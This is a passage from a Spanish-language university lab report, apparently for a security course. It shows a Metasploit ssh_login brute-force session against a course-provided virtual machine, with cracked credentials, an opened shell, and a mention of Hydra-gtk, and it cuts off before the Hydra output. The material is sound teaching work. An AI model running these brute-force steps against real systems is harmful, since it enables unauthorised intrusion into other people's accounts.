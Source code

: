 Al intentar realizar una enumeración DNS utilizando el dominio \texttt{unp.edu.ar} nos devuelve error, pero al intentarlo con \texttt{google.com} obtenemos lo especificado en el archivo \texttt{salida-dns-enum.xml} adjunto con el informe.

\section*{Ataques de fuerza bruta}

Demostramos un ataque por fuerza bruta sobre ssh en la máquina virtual provista por la cátedra

\begingroup
    \fontsize{8pt}{10pt}\selectfont
\begin{lstlisting}[breaklines=true]
msf > use auxiliary/scanner/
Display all 540 possibilities? (y or n)
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.0.101
rhosts => 192.168.0.101
msf auxiliary(scanner/ssh/ssh_login) > set pass_file /home/pablo/shared/badpasswords
pass_file => /home/pablo/shared/badpasswords
msf auxiliary(scanner/ssh/ssh_login) > set username defo
username => defo
msf auxiliary(scanner/ssh/ssh_login) > set stop_on_success true
stop_on_success => true
msf auxiliary(scanner/ssh/ssh_login) > exploit

[+] 192.168.0.101:22 - Success: 'defo:defo1234' 'uid=1001(defo) gid=1001(defo) groups=1001(defo) Linux kali 4.9.0-kali3-amd64 #1 SMP Debian 4.9.18-1kali1 (2017-04-04) x86_64 GNU/Linux '
[*] Command shell session 1 opened (192.168.0.103:45081 -> 192.168.0.101:22) at 2018-10-24 03:03:14 -0300
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type         Information                           Connection
  --  ----  ----         -----------                           ----------
  1         shell linux  SSH defo:defo1234 (192.168.0.101:22)  192.168.0.103:45081 -> 192.168.0.101:22 (192.168.0.101)

msf auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...

whoami
defo
uname -a
Linux kali 4.9.0-kali3-amd64 #1 SMP Debian 4.9.18-1kali1 (2017-04-04) x86_64 GNU/Linux
\end{lstlisting}
\endgroup

Utilizando la herramienta \texttt{Hydra-gtk} provista en la máquina virtual podemos realizar el mismo ataque, pero esta vez desde una ventana. La salida que devuelve es la siguiente:

